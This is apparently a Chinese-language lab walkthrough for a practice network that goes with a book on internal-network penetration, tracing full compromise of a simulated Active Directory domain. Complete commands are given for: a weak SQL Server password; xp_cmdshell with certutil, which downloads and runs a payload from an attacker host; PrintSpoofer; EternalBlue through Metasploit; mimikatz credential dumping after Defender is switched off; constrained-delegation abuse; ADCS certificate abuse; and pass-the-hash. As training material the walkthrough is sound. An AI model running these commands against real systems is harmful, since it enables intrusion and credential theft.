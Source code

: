 # 《内网渗透体系建设》简易教学练习环境WP

By WHOAMI、Venenof7

## Web01

部署好全部虚拟机后，首先扫描本地存活主机，以发现 Web01 的地址：

```
./fscan.exe -np -h 192.168.162.1/24
# 因为 Web01 开了防火墙，所以需要指定 -np 禁止 ping
```

![image-20240222121702332](./images/image-20240222121702332.png)

先访问 80 端口：

![image-20240222115713142](./images/image-20240222115713142.png)

1433 端口上存在 SQL Server 弱口令，用sa/123456即可成功登录。然后通过 xp_cmdshell 执行系统命令即可：

```sql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 执行系统命令 */
EXEC master.dbo.xp_cmdshell 'cd C:\Users\Public & certutil -urlcache -split -f http://192.168.162.130:8080/she1l.exe';

EXEC master.dbo.xp_cmdshell 'C:\Users\Public\she1l.exe'
```

成功上线 Web01 这台服务器：

![image-20240222121422282](./images/image-20240222121422282.png)

由于此时是服务账户权限，我们可以通过 Windows 令牌操纵技术获取 System 权限。上传 PrintSpoofer.exe，然后执行以下命令即可提升至系统权限：

```
PrintSpoofer.exe -i -c cmd
```

![image-20240222122220971](./images/image-20240222122220971.png)

## 内网存活扫描

我们发现一个内网网段 172.22.10.1/24：

![image-20240222122300181](./images/image-20240222122300181.png)

上传 fscan 扫描内网：

![image-20240222122441289](./images/image-20240222122441289.png)

![image-20240222122451598](./images/image-20240222122451598.png)

发现内网存活的主机，并且存在域环境，域名为 aerospace.local，域控制器为 DC01.aerospace.local，IP 为 172.22.10.11。

此外，还存在 ADCS，证书颁发机构为 CA.aerospace.local。

## WIN-PC8086

WIN-PC8086 这台域成员机器存在 MS17_010 漏洞，ip为 172.22.10.36，使用 msf 挂上代理，用 bind_tcp 类型的 payload 直接打：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 172.22.10.36
set lport 4444
run
```

成功获取 SYSTEM 权限：

![image-20240222122857732](./images/image-20240222122857732.png)

由于这台机器位于域内，因此我们可以用他的机器账户收集域内信息。加载 kiwi 模块，抓取 WIN-PC8086 计算机账户的哈希值：

```
load kiwi
kiwi_cmd "sekurlsa::logonpasswords"
```

![image-20240222124817297](./images/image-20240222124817297.png)

然后，使用 [Impacket](https://github.com/fortra/impacket) 套件中的 findDelegation.py 枚举域内委派关系：

```bash
python3 findDelegation.py aerospace.local/WIN-PC8086\$ -hashes :******** -dc-ip 172.22.10.11
```

![image-20240222125323210](./images/image-20240222125323210.png)

发现当前的 WIN-PC8086 机器对域内 WIN-PC8098 这台机器的 HOST 和 CIFS 服务具有约束委派权限，因此可以通过约束委派获取 WIN-PC8098 的权限。

## WIN-PC8098

我们使用 [Impacket](https://github.com/fortra/impacket) 套件中的 getST.py 脚本进行约束委派攻击。执行以下命令，使用 WIN-PC8086 账户代表域管理员用户 Administrator 获取 WIN-PC8098 机器上 CIFS 服务的票据：

```bash
python3 getST.py aerospace.local/WIN-PC8086\$ -hashes :******** -spn CIFS/WIN-PC8098.aerospace.local -impersonate Administrator -dc-ip 172.22.10.11
```

![image-20240222125738235](./images/image-20240222125738235.png)

成功申请到票据后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 wmiexec.py 获取 WIN-PC8098 机器的最高权限：

```bash
export KRB5CCNAME='Administrator@CIFS_WIN-PC8098.aerospace.local@AEROSPACE.LOCAL.ccache'
python3 wmiexec.py -k aerospace.local/Administrator@WIN-PC8098.aerospace.local -no-pass -dc-ip 172.22.10.11
```

![image-20240222130846243](./images/image-20240222130846243.png)

在 WIN-PC8098 机器上发现了一个域用户 liuyuhua 的进程：

![image-20240222132551554](./images/image-20240222132551554.png)

然后考虑上传 mimikatz 抓取该用户的哈希值。由于该机器开启了 Windows defender，可以考虑新建一个管理员用户登录到远程桌面，然后将 Windows defender 关闭后在运行 mimikatz。

抓取到 liuyuhua 的哈希值为 :********：

![、](./images/image-20240222133044952.png)

## DC01

由于环境中存在 ADCS 服务，因此考虑通过 [Certify](https://github.com/GhostPack/Certify) 枚举错误配置。还是在 WIN-PC8098 机器上，，然后执行以下命令：

```
Certify.exe find /vulnerable
```

![image-20240222134937394](./images/image-20240222134937394.png)

发现一个名为 AeroUser 的证书模板，开启了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且所有的域用户账户都有注册权限。那么我们可以以域内任何用户的身份请求证书，包括域管理员用户或域控制器的机器账户，并使用该证书获取合法用户的 TGT，一次实现域权限提升。

执行以下命令，通过 [Certipy](https://github.com/ly4k/Certipy) 工具为域管理员用户申请证书：

```bash
certipy-ad req -username liuyuhua@aerospace.local -hashes :******** -ca aerospace-CA-CA -target CA.aerospace.local -template AeroUser -upn Administrator@aerospace.local -dns DC01.aerospace.local -debug
```

![image-20240222140815015](./images/image-20240222140815015.png)

申请到了名为 administrator_dc01.pfx 的证书，然后执行以下命令，通过该证书进行 kerberos 身份验证，可以成功拿到域管理员用户的 TGT 票据和 NTLM 哈希：

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 172.22.10.11
```

![image-20240222141014583](./images/image-20240222141014583.png)

可以看到，已经成功拿到了域管理员的 NTLM 哈希，接下来直接哈希传递即可获取域控制器权限了：

```BASH
python3 wmiexec.py aerospace.local/Administrator@dc01.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141221545](./images/image-20240222141221545.png)

## CA

同样是哈希传递，可以获取 CA 的权限：

```
python3 wmiexec.py aerospace.local/Administrator@ca.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141327594](./images/image-20240222141327594.png)
